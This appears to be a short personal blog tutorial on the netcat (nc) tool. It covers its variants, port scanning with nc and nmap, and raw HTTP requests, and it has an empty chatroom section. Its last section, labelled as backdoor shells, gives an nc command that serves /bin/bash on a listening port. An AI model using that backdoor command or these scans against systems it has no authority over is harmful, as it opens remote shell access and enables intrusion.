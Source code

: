 ```yaml
---
layout: post
title: How to use netcat command
author: Jeffrey Tse
categories: computer
tags:
  - computer
  - linux
  - terminal
  - note
---
```


## 1. Introduction

Command `nc` stands for __netcat__, known as the swiss army knife of
network tools, it's a utility which is used for reading and writing
data across TCP and UDP ports. It can be used for a lot of cool
stuff, this article will take a closer look.

There are two similar packages available for netcat with a slight
difference between them:

- Traditional GNU netcat (such as Ncat in the CentOS is nmap package)
- OpenBSD nc (such as the nc that comes with MacOS).

Their parameters are not exactly the same. For example, BSD `nc`
cannot use `-p` and `-l` at the same time, which is easy to cause
confusion for novices.

netcat/nc/ncat/nmap

- __Linux/macOS__ users can quickly use in the terminal with pre-installed
Nc (and Netcat on Linux)
- __Windows__ users will need to install Netcat’s successor, Ncat, made
by the Nmap project

## 2. Using for port scanning

```bash
nc -zv domain.com 1-1000
```

```bash
nc -znv 1.2.3.4 1-1000
```

```bash
nmap -Pn 1.2.3.4
```

- `-z` – See if the port is open without sending data
- `-n` – Dont resolve, numeric-only IP addresses, no DNS lookup
- `-v` – Show verbose information
- `-w` – Set a timeout between the client and the target node, otherwise
Netcat will continue trying until a connection is made or you manually
close the attempt (`Ctrl + C`)

## 3. Using for HTTP Requests

```bash
printf “GET / HTTP/1.0\r\n\r\n” | nc google.com 80
```

## 4. Using for Chatroom


## 5. Launching Reverse (Backdoor) Shells

Server:

```bash
nc -l -p [port] -e /bin/bash
```

Client:

```bash
nc -n 127.0.0.1 [port]
```
